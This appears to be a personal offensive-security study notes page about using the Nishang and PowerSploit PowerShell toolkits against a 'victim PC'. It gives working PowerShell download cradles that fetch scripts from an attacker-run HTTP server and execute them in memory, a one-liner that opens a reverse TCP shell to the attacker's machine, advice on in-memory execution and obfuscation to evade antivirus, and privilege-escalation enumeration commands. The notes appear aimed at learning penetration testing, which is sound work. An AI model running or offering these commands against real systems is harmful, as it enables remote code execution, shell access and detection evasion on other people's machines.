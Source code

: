 * Nishang [https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)

Page 223 in the pdf.

> Note: it is important to make sure that most of the tools and srpits we invoke should be invoked via download cradles that support in-memory execution. This is important because if we import them directly to the victim PC, Antivirus will detect them easily.

* We will be using the `Net.WebClient` and `DownloadString` method to execute our scripts in memory.

#### How to use nishang

* Navigate to the folder where you downloaded it to on kali.
* Setup a python server `python3 -m http.server` .
* Get the name of the .ps1 script you want to use for example: "Get-Information" the construct your download craddle and execute in the victim PC.&#x20;

`cmd> powershell.exe -Command iex (New-Object System.Net.WebClient).DownloadString('http://192.168.0.100:8000/Get-Information.ps1'); Get-Information`  - outputs important info about victim pc, you can explore with othe .ps1 scripts in nashang directory;

<figure><img src=".gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

* We can use the "Invoke-Obfuscation" PS script to obfuscate our PS cmd, tho i tried and Windows Defender still blocked it :(

#### Reverse PS TCP shells

We can use the "Invoke-PowerShellTcp" .ps1 script to establish a reverse shell to our kali machine.

`iex (New-Object System.Net.WebClient).DownloadString("http://192.168.0.100:8000/Invoke-PowerShellTcp.ps1"); Invoke-PowerShellTcp -Reverse -IPAddress 192.168.0.100 -Port 4444`&#x20;

### Post Exploitation with \[powersploit]

* Download the  file in kali and navigate to the folder [https://github.com/PowerShellMafia/PowerSploit](https://github.com/PowerShellMafia/PowerSploit)
* The PowerSploit module is used for indentification of misconfigurations which could lead to Privilege Escalation. Lets look within the Privesc category. We could Import the module or use the download craddle and launch some of the cmds on the victim.
  * `ps> Import-Module .\Privesc.psm1` - to import the module.
  * `ps> Get-Command -Module Privesc` - to view all the available cmds.
  * Read the README.md file in the Privesc folder.
  * `Invoke-AllChecks` - cmdlet to look for all privesc vectors.
